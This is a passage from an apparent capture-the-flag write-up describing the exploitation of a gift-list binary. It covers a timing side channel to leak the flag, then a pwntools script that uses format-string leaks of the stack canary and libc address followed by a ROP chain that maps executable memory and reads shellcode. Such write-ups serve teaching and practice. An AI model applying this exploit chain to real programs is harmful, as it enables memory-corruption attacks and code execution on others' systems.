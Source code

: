 The idea is that we can make the program loop indefinitely if we encounter the right flag character. Otherwise, the
program will terminate properly. This timing difference allows us to leak the flag character by character. In
retrospect, it would have been more efficient to leak the flag bit by bit to save some roundtrips (8 requests per
character instead of ~100 requests to go through `strings.printable`).

To get a ROP chain executed, we first have to leak the stack cookie, some libc address and some address of the binary.
Luckily we have a string format to do exactly that:

```python
io = start()
io.recvuntil(b'for?')

io.sendline(b"%43$p %45$p %47$p")
io.recvuntil(b"of ")
leaks = io.recvline().decode().split(' ')

cookie_leak = int(leaks[0], 16)
libc_leak = int(leaks[1], 16)
main_leak = int(leaks[2][:-1], 16)

exe.address = main_leak - exe.sym['main']
libc.address = libc_leak - 0x29d90
```

Next, we add 4 dummy gifts and perform a stack overflow on the last gift. The ROP chain performs the `mmap` as well as a
call to `read` to read in the second stage payload (shellcode):

```python
for i in range(4):
    io.recvuntil(b'wish: ')
    io.sendline(b'a')

io.recvuntil(b'wish: ')

rop = ROP(libc)
bss = exe.bss(20)
shell = 0x10000

rop.raw(rop.find_gadget(['pop rdi', 'ret']))
rop.raw(bss)

# sets r9 = 0
rop.raw(libc.address + 0x0000000000054d69)

rop.raw(rop.find_gadget(['pop rdi', 'ret']))
rop.raw(shell)

rop.raw(rop.find_gadget(['pop rsi', 'ret']))
rop.raw(300)

rop.raw(rop.find_gadget(['pop rcx', 'ret']))
rop.raw(34)  # flags set to MAP_ANONYMOUS | MAP_PRIVATE

rop.raw(rop.find_gadget(['pop rdx', 'ret']))
rop.raw(7)  # protection set to PROT_READ | PROT_WRITE | PROT_EXEC

rop.raw(libc.sym['mmap'])
rop.read(0, shell, 100)  # read shellcode from stdin
rop.raw(shell)

io.sendline(fit({264: cookie_leak, 280: rop.chain()}))
```